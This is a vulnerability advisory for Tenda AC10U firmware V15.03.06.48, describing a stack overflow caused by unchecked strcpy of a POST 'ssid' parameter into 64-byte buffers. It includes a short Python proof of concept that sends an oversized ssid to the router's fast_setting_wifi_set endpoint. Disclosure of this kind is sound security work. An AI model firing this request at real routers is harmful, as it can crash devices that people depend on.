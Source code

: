 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `form_fast_setting_wifi_set` function. The `ssid` variable receives the `ssid` parameter from a POST request and is later assigned to the `ssid_24g` and `ssid_5g` variable, which is fixed at 64 bytes. However, since the user can control the input of  `ssid`, the statement `strcpy(ssid_24g, ssid);`and `strcpy(ssid_5g, ssid);` can cause a buffer overflow. The user-provided  `ssid` can exceed the capacity of the `ssid_24g` and `ssid_5g` array, triggering this security vulnerability.

![image-20240313145111247](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313145111247.png)

![image-20240313145126123](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313145126123.png)

## POC

```python
import requests
ip = '192.168.84.101'
url = f'http://{ip}/goform/fast_setting_wifi_set'

payload = {
    'ssid': 'a' * 1000
}

r = requests.post(url=url, data=payload)
print(r.content)
```

![image-20240313182454613](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313182454613.png)
